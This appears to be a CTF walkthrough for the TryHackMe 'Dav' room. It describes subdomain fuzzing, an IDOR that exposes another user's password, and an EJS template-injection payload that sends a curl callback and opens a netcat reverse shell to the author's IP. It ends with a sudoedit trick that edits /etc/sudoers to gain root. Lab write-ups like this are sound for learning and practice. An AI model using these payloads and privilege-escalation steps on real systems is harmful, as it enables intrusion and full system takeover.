 # Dav CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Dav** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/bsidesgtdav). 
---


we see 2 open ports 22 and 80

![scn](imgs/scn.png "scn")

we need to add cyprusbank.thm to `/etc/hosts`

using feroxbuster without any result

used ffuf to find subdomains/vhosts

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://$IP:80 -H 'Host: FUZZ.cyprusbank.thm' -fs 57
```

![ffuf](imgs/ffuf.png "ffuf")

we found `www` and `admin` adding them to /etc/hosts

we found login page at admin.cyprusbank.thm

![log](imgs/log.png "log")

TryHackMe provides us with some credentials, and those work so we can login as `Olivia Cortez`

ok we can see that messages panel uses get paramtere to display the chat, we can manipulate the address to 

```
http://admin.cyprusbank.thm/messages/?c=0
```

there is an IDOR vulnerability, now we can see `Gayle Bev` password

![idor](imgs/idor.png "idor")

we found Tyrell Wllick's phone number

![nr](imgs/nr.png "nr")

we now also have access to settings page

![set](imgs/set.png "set")

after entering `test:123` we see that 123 was shown on the page

![set2](imgs/set2.png "set2")

if we capture and modify our request so it only sends `name=ww` we can see the error msg

![err](imgs/err.png "err")

i found this payload to test if we have EJS Server Side Template Injection (SSTI)

```
name=abc&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.14.X.X:8081');s
```

![curl](imgs/nmap.png "nmap")

after clicking send we got hit to our server so we might be able to smuggle the reverse shell in tha payload

![hit](imgs/hit.png "hit")

this payload should work

```
name=abc&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.14.91.59 4445 -e /bin/bash');s
```

we have reverse shell as `web`

![web](imgs/web.png "web")

we found user flag

![user](imgs/user.png "user")

here is the `sudo -l` output:

![sudol](imgs/sudol.png "sudol")

to priv esc we need stable shell and then we need to use

```
$ export EDITOR="nano -- /etc/sudoers"
$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

we need to change sudoers file so we can use sudo su witout a password

![sudoers](imgs/sudoers.png "sudoers")

we got root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
